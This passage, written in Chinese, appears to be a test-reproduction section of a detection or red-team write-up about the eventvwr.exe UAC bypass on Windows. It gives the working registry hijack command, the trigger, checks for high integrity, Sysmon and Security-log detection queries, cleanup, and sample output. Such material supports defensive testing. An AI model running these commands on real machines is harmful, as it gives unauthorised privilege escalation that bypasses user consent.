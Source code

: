 ## 测试复现

### 环境准备
- **靶机**：Windows 10（或Vista、7、8、8.1，建议测试前确认UAC设置）。  
- **权限**：标准用户权限（无需管理员）。  
- **工具**：`eventvwr.exe`（系统自带）、`reg.exe`、Sysmon。  
- **UAC设置**：非最高级别（如“默认-仅通知应用程序更改”）。  
- **日志**：启用Windows安全日志和Sysmon。  

### 攻击步骤
1. **修改注册表**  
   - 配置`cmd.exe`为`mscfile`默认命令：
     ```cmd
     reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /d "C:\Windows\System32\cmd.exe" /f
     ```

2. **触发UAC绕过**  
   - 运行事件查看器：
     ```cmd
     eventvwr.exe
     ```
   - 观察`cmd.exe`是否以高完整性级别启动：
     ```powershell
     whoami /groups | findstr "High"
     ```

3. **验证结果**  
   - 检查注册表：
     ```powershell
     Get-ItemProperty -Path "HKCU:\Software\Classes\mscfile\shell\open\command"
     ```
   - 检查日志：  
     - **Windows安全日志（事件ID 4688）**：
       ```powershell
       Get-WinEvent -LogName Security | Where-Object { $_.Id -eq 4688 -and $_.Message -match "eventvwr.exe|cmd.exe" }
       ```
     - **Sysmon日志（事件ID 13）**：
       ```powershell
       Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object { $_.Id -eq 13 -and $_.Message -match "mscfile\\shell\\open\\command" }
       ```

4. **清理**  
   - 删除注册表键：
     ```cmd
     reg delete "HKCU\Software\Classes\mscfile\shell\open\command" /f
     ```

### 示例输出
```cmd
reg add "HKCU\Software\Classes\mscfile\shell\open\command" /ve /d "C:\Windows\System32\cmd.exe" /f
The operation completed successfully.

eventvwr.exe
<cmd.exe窗口弹出，运行whoami /groups显示Mandatory Label\High Mandatory Level>

reg delete "HKCU\Software\Classes\mscfile\shell\open\command" /f
The operation completed successfully.
```
